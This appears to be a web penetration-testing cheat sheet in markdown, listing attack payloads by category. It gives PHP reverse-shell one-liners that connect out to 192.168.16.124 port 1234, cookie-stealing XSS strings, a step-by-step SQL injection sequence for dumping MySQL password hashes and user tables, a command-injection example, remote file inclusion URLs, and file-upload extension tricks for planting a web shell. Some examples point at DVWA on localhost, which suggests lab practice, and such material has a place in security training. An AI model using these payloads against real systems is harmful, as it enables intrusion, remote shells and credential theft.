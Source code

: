# WEB

PHP
---

Reverse shell one-liners:

<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>  
<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>


XSS (CROSS SITE SCRIPTING)
==========================

```javascript
<script>alert("XSS")</script>
<script>alert(document.cookie)</script>
```

iframe: `<iframe src="http://www.cnn.com"></iframe>`  
Stored cookie: `<script>alert(document.cookie)</script>`
Refleced (vulnerable parameter): `http://localhost/xss_r/?name=<script>alert(document.cookie)</script`


SQL INJECTION
=============

SQL operators and functions:

`UNION` - used to combine the result of two or more SELECT statements with same number of columns and similar data types (selects only distinct values by default - to allow duplicate values, use UNION ALL).  
`SUBSTRING(str, pos, len)` - returns a specified number of characters from a particular position of a given string.  

MySQL delimiter: `#`
SQL delimiter: `--`

Vulnerable code example:

```
$id=$_GET['id'];

$getid="SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result=mysql_query($getid) or die('
<pre>' . mysql_error() . '</pre>
' );
```

Determining Database Type
-------------------------

Only MySQL is using `version_comment`.

* "Always true" scenario:

```
%' or '0'='0
' or 1=1--
```

`%` will probably not be equal to anything so will be false
`'0'='0'` - always equal to true

* Figure out how many columns / attributes are there:

`‘ ORDER BY 1#`  
`‘ ORDER BY 2#`  
etc.

* Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`
`%' or 0=0 union select null, version() #`

* Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`
`%' or 0=0 union select null, user() #`

* Dump MySQL hash:

`‘ UNION ALL SELECT user,password FROM mysql.user#`

* Find out the table name:

`‘ UNION ALL SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema LIKE ‘%[database name]%’ #`

* Find out columns in a table:

`‘ UNION ALL SELECT table_schema, column_name FROM information_schema.columns WHERE table_schema LIKE ‘%[database name]%’ #`

* Dump username and password from `example.users` table:

`‘ UNION ALL SELECT user, password FROM example.users #`

* Display all tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables #`

* Display all the user tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables where table_name like 'user%'#`

* Display all the columns fields in database's user table:

%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`

* Display all the columns field contents in the database user table:

`%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`


COMMAND INJECTION
-----------------

* Try to use pipe, ampersands, etc. Example: `1 | uname -a & users & id`


LOCAL FILE INCLUSION
--------------------

Local: `http://localhost/dvwa/vulnerabilities/fi/?page=include.php`
Remote: `http://localhost/dvwa/vulnerabilities/fi/?page=http://google.com/robots.txt`

FILE UPLOAD
-----------

Image upload restrictions [bypass](http://hackers2devnull.blogspot.lt/2013/05/how-to-shell-server-via-image-upload.html):

shell.jpg.php (satisfies as check for jpg only)

shell.jpg.PhP (obfuscation)

shell.php;.jpg (sometimes can ignore whats after ";")

shell.php%0delete0.jpg (the infamous NULL byte which comments out trailing text, remove the word delete so the zeros join together, blogspot strips this string!)

shell.php.test (defaults to first recognised extension ignoring "test")

shell.php.xxxjpg (still ends in .jpg, but not recognised extension so will default to php!)

.phtml (a commonly used php parsed extension often forgotten about!)

.php3/.php4/.php5 (valid PHP extensions possibly left out of extension blacklists)

